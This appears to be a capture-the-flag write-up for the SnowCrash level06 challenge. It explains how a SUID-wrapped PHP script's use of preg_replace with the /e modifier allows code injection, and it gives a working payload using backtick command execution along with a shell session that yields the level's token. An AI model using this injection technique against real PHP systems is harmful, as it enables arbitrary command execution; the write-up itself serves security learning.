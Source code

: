 # Level06: PHP Code Injection via preg_replace /e Modifier

## Vulnerability Analysis

After examining the files in the level06 home directory, we find:

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

The level06 binary is owned by flag06 user and has the SUID bit set, which means it runs with flag06 privileges.

Looking at level06.php, we found:

```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

## Understanding the PHP Code

For those unfamiliar with PHP, here's what this code does:

1. **PHP Basics**: PHP is a server-side scripting language commonly used for web development. The code above is wrapped in `<?php ?>` tags which indicate PHP code.

2. **Function Definitions**:

   - Function `y($m)` takes a string parameter and replaces dots with " x " and @ symbols with " y"
   - Function `x($y, $z)` takes two parameters (although $z is never used):
     - It reads the contents of the file specified by $y
     - Performs a series of pattern replacements
     - Returns the modified content

3. **Main Execution**: The line `$r = x($argv[1], $argv[2]); print $r;` calls function x with command line arguments and prints the result.

## Vulnerability: preg_replace with /e modifier

The key vulnerability is in this line:

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

Breaking this down:

- `preg_replace()` is a PHP function that searches for patterns in strings and replaces them
- `/(\[x (.*)\])/e` is a regular expression pattern:
  - `\[x` matches literal "[x"
  - `(.*)` captures any characters between "[x" and "]"
  - The `/e` modifier is critical - it tells PHP to evaluate the replacement string as PHP code after substitution

The `/e` modifier in preg_replace evaluates the replacement string as PHP code, which is a deprecated and dangerous feature that allows for remote code execution.

## Exploitation

1. Created a file with the following content:

```
[x {${`getflag`}}]
```

2. When processed by the PHP script, this payload works as follows:

   - Our pattern `` [x {${`getflag`}}] `` is matched by the regex
   - The `/e` modifier causes PHP to evaluate `` y("{${`getflag`}}") `` as code
   - The `${...}` syntax in PHP is variable interpolation:
      1. Processes `` ${`getflag`} `` 
      2. Executes the `getflag` command via the backticks
      3. Substitutes the entire expression with the command output
   - So `getflag` is executed and its output is returned

3. Execution:

```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/exploit.txt
level06@SnowCrash:~$ ./level06 /tmp/exploit.txt
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
